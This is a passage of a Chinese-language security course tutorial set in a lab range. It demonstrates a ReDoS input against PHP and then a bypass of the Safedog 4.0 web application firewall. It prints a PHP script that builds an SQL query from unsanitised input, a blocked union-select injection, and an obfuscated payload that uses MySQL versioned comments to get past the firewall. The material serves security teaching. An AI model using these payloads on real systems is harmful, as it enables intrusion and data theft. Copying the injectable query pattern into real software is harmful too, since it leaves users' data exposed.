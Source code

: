靶场已经集成在谜团上的“[极客时间-漏洞挖掘与智能攻防实战](https://mituan.zone/#/course/2c9f843c7d0d2038017ddcaad23938f7)”里。

我们打开题目`ReDoS`，运行靶机。当我们的输入如下内容：

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab

```

系统会出现卡顿，过了一段时间后会出现匹配失败，回溯次数已用尽的提示信息。这是因为，PHP内置了正则匹配的回溯上限次数，当回溯次数超出该限制时，就会返回匹配失败。

这样的限制可以在输入检测失效的情况下，减轻ReDos对PHP应用的影响。

接下来，我们一起看一个绕WAF的实例。

### 案例二：一个绕WAF的实例

这个WAF，是最新版本的安全狗V4.0网页（APACHE）版。我们可以在谜团上打开靶场安全狗4.0。之后访问该网页的目录`inject.php`，它的代码如下：

```
*<?php*
$id = $_GET['id'];
$con = mysql_connect(“localhost”,”root”,”root”);
*if* (!$con){*die*(‘Could not connect: ‘ . mysql_error());}
mysql_select_db(“dvwa”, $con);
$query = “SELECT first_name,last_name FROM users WHERE user_id = ‘$id’; “;
$result = mysql_query($query)*or* *die*(‘<pre>’.mysql_error().’</pre>’);
*while*($row = mysql_fetch_array($result))
{
 *echo* $row[‘0’] . “&nbsp” . $row[‘1’];
 *echo* “<br />”;
}
*echo* “<br/>”;
*echo* $query;
mysql_close($con);
*?>*

```

我们尝试使用`payload`为：

```
?id=1' and 1=2 union select database(),2 --+

```

会发现被安全狗拦截了，但我们对它进行修改为：

```
?id=1'//*!14400and*//1=2//*//*//union//*!88888cas*//*/%0a*a*//select//**//*//*//database(//*%%!AJEST%%%%*//),2//**/--+/

```

注意，其中`/*! ….*/`是MySQL为了保持兼容，它把一些特有的仅在MySQL上用的语句放在了`/*!….*/`中，目的是这些语句在其他数据库中是不会被执行，但在MySQL中会被执行。

利用这个组合，我们就能绕过WAF，成功获取到当前的数据库的名称。

既然有这么多WAF绕过方式，那么在安全实践中，WAF厂商是如何防范自己的WAF被绕过的呢？
